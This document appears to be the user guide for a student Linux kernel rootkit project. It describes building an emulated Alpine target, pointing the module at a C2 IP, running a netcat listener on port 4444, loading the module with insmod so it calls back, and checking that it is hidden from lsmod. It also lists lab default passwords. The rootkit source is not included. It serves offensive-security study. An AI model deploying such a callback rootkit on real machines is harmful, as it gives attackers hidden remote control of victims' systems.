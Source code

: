 # Rootkit documentation

#
To operate our software we need two machines.
The first is our target (aka alpine) and the second our C2.
For the need of exercice we emulate our alpine on a debian machine (aka host).

Previously, you need 
    On host : 
        Install : `sudo apt install bc binutils bison dwarves flex gcc git gnupg2 gzip libelf-dev libncurses5-dev libssl-dev make openssl pahole perl-base rsync tar xz-utils parted`
        Download Linux Kernel : `wget https://cdn.kernel.org/pub/linux/kernel/v6.x/linux-6.10.tar.gz`
        Unzip it : `tar -xvf linux-6.10.tar.gz`
        Assume to have the following tree on root folder :
            .
            └── root
                ├── Dockerfile
                ├── kill.sh
                ├── linux-6.10
                ├── modules
                │   ├── Makefile
                │   └── rootkit.c
                ├── script.sh
                └── UserGuide.md

    On C2 : 
        Check if netcat is up to date

In our C2 we have installed : netcat

On the host, run script.sh file with :
> chmod +x script.sh
> chmod +x kill.sh
> sh script.sh
To create the quemu alpine.

After the prossess finish. On the alpine, login you with the user `root` and create a share directory:
> mkdir -p /tmp/share
> mount -t 9p -o trans=virtio host0 /tmp/share -oversion=9p2000.L

Then, check the ip of your alpine and your C2.


In Debian host, on `rootkit.c` file, change SERVER_IP adresse with your C2 IP.
Running `make` compile `rootkit.c` file and copy it on the /tmp/qemu-share/ directory.
> root@debian-host:~/modules# make
> root@debian-host:~/modules# cp rootkit.ko /tmp/qemu-share/

On C2 :
root@debian-c2:~# nc -lnvp 4444
Command explanation :
nc: Netcat abbreviation.
-l: listen for incoming connections.
-n: prevents DNS resolution (will not attempt to resolve hostnames).
-v: verbose mode.
-p 4444: port number on which Netcat will listen for incoming connections.

Back to our alpine :
Run our rootkit : 
> root@alpine:~/tmp/share/# insmod *.ko 
After execution, you should have the connection confirmation.

We can check, our rootkit is hid from module list :
> lsmod



Information
Alpine user's :
- root:root
- user:password